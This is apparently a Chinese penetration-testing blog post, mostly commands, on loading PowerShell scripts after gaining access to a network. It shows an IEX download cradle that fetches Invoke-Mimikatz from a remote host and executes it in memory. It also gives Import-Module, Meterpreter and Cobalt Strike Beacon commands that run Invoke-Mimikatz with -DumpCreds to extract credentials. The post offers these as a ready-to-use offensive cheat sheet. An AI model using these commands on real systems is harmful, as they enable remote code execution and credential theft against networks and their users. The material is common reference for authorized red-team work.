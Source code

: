 ```yaml
---
title: "加载 PowerShell 脚本"
date: 2019-07-24T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['powershell','metasploit','cobalt strike']
categories: ['内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



通过 Module, IEX, Metasploit, Cobalt Strike 方式加载 PowerShell 脚本

<!--more-->

## Module

通过导入模块的方式加载 PowerShell 脚本.

```
Import-Module .\Invoke-Mimikatz.ps1
```

```
. .\Invoke-Mimikatz.ps1
```

## IEX

通过 `Invoke-Expression` 命令从网络加载 PowerShell 脚本.

```
IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.1/Invoke-Mimikatz.ps1')
```

## Metasploit

通过 Meterpreter 中的 powershell 模块加载 PowerShell 脚本.

```
load powershell
powershell_import /home/exp10it/Invoke-Mimikatz.ps1
powershell_execute Invoke-Mimikatz -DumpCreds
```

## Cobalt Strike

通过 Beacon 命令控制台加载 PowerShell 脚本.

```
powershell-import /home/exp10it/Invoke-Mimikatz.ps1
powershell-execute Invoke-Mimikatz -DumpCreds
```

## 注意

PowerShell 默认限制输出长度, 需手动更改.

```
$FormatEnumerationLimit = -1
```